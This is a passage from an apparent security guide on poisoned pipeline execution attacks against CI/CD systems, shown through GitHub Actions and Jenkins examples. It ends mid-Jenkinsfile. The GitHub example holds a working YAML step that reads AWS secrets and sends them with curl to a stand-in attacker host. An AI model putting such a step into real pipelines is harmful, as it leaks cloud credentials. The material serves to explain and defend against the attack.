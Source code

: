 
In this scenario, a D-PPE attack would be carried out as follows:



1. An attacker creates a new remote branch in the repository, in which they update the pipeline configuration file with malicious commands intended to access AWS credentials scoped to the GitHub organization and then to send them to a remote server.

```YAML
name: PIPELINE
on: push
jobs:
 build:
   runs-on: ubuntu-latest
   steps:
     - env:
         ACCESS_KEY: ${{ secrets.AWS_ACCESS_KEY_ID }}
         SECRET_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

       run: |
         curl -d creds="$(echo $ACCESS_KEY:$SECRET_KEY | base64 | base64)" hack.com

```



2. Once the update is pushed, this triggers a pipeline which fetches the code from the repository, including the malicious pipeline configuration file.
3. The pipeline runs based on the configuration file “poisoned” by the attacker. As per the attacker’s malicious commands, AWS credentials stored as repository secrets are loaded into memory.
4. The pipeline proceeds to execute the attacker’s commands which send the AWS credentials to a server controlled by the attacker.
5. The attacker is then able to use the stolen credentials to access the AWS production environment.

<span style="text-decoration:underline;">Example 2: Credential theft via Indirect-PPE (Jenkins)</span>

This time, it is a Jenkins pipeline that fetches code from the repository, builds it, runs tests, and eventually deploys to AWS. In this scenario the pipeline configuration is such that the file describing the pipeline - the Jenkinsfile - is always fetched from the main branch in the repository, which is protected. Therefore, the attacker cannot manipulate the build definition, meaning that fetching secrets stored on the Jenkins credential store, or running the job on other nodes are not a possibility.

However - this does not mean that the pipeline is risk free;

In the _build_ stage of the pipeline, AWS credentials are loaded as environment variables, making them available only to the commands running in this stage. In the example below, the _make_ command, which is based on the contents of Makefile (also stored in the repository), runs as part of this stage.

The Jenkinsfile:


```GROOVY
pipeline {
   agent any
   stages {
       stage('build') {
           steps {
               withAWS(credentials: 'AWS_key', region: 'us-east-1') {
                       sh 'make build'
                       sh 'make clean'
               }
           }
       }
       stage('test') {
           steps {
               sh 'go test -v ./...'
```